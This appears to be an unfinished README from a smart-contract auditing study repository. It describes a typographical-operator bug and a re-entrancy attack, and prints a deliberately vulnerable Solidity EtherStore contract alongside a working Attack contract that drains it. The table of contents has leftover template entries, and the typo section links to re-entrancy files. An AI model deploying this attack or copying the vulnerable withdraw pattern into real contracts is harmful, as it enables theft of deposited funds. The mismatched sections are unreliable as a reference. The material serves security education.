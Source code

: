 # 20 ATTACK VECTORS
- [Typographical Error](#typography)
- [Re-Entrancy Attack](#reentrancy)
- [Center](#center)
- [Color](#color)

## <font color="yellow">Typographical Error <a id="typography"></a></font>

### Description
*A typographical error can occur **for example** when the intent of a defined operation is to sum a number to a variable (+=) but it has accidentally been defined in a wrong way (=+), introducing a typo which happens to be a valid operator. Instead of calculating the sum it initializes the variable again.*

### Code sample

- [Vulnerable contract](https://github.com/ojiubasi-motif/guild-audit-wk1/blob/master/src/ReentrancyEthBank.sol)
- [Attack contract](https://github.com/ojiubasi-motif/guild-audit-wk1/blob/master/src/ReentrancyExploit.sol)
- [Test attack](https://github.com/ojiubasi-motif/guild-audit-wk1/blob/master/test/reentrancy.t.sol)

### Remediation
The weakness can be avoided in two ways; 1)by performing pre-condition checks on any math operation or using a vetted library for arithmetic calculations such as SafeMath developed by OpenZeppelin. 2)always check and ensure that your solidity compiler version is the latest *stable* version if not the latest version

## <font color="yellow">Re-Entrancy Attack <a id="reentrancy"></a></font> 

### Description
*one major danger of calling external contracts is that they can take over the control flow as described thus: Let's say that contract A calls contract B.*

*Reentracy (a.k.a. recursive call attack) exploit allows B to call back into A before A finishes execution.*

### Code sample

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        (bool sent,) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        etherStore.deposit{value: AMOUNT}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```